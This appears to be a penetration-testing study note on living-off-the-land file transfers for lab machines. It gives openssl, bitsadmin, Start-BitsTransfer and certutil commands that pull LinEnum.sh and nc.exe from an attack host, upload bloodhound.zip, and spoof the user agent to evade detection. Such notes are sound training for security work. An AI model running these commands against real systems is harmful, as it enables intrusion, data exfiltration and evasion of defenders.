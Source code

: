 #### Search for `+file download` or `+file upload`
![[Pasted image 20230303114102.png]]

#### Create Certificate on Attack Host
```Shell
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
```

#### Stand up the Server on Attack Host
```Shell
openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

#### Download File from the Compromised Machine
```Shell
openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

### Other Living off the Land Tools

#### File Download with Bitsadmin
```PowerShell
bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe
```

#### Bitsadmin Download
```PowerShell
Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Temp\nc.exe"
```

#### Bitsadmin Upload
```PowerShell
Start-BitsTransfer "C:\Temp\bloodhound.zip" -Destination "http://10.10.10.132/uploads/bloodhound.zip" -TransferType Upload -ProxyUsage Override -ProxyList PROXY01:8080 -ProxyCredential INLANEFREIGHT\svc-sql
```

#### File Download with Certutil
```cmd.exe
certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe
```


## Evading Detection

### Changing User Agent

#### Listing out User Agents
```PowerShell
[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl
```
Example, if Chrome is used internally, setting this User Agent may make the request seem legitimate.
